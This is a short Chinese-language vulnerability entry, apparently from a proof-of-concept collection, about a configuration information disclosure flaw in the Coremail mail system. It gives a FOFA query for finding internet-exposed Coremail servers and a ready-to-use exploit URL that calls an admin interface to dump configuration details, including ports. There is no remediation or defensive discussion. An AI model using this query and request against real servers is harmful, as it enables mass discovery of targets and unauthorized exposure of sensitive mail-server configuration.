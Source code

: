# Coremail 配置信息泄露漏洞

## 漏洞描述

Coremail 某个接口存在配置信息泄露漏洞，其中存在端口，配置信息等

## 漏洞影响

```
Coremail 配置信息泄露漏洞
```

## FOFA

```
app="Coremail邮件系统"
```

## 漏洞复现

POC为

```plain
http://xxx.xxx.xxx.xxx/mailsms/s?func=ADMIN:appState&dumpConfig=/
```

![](./images/202202101913188.png)


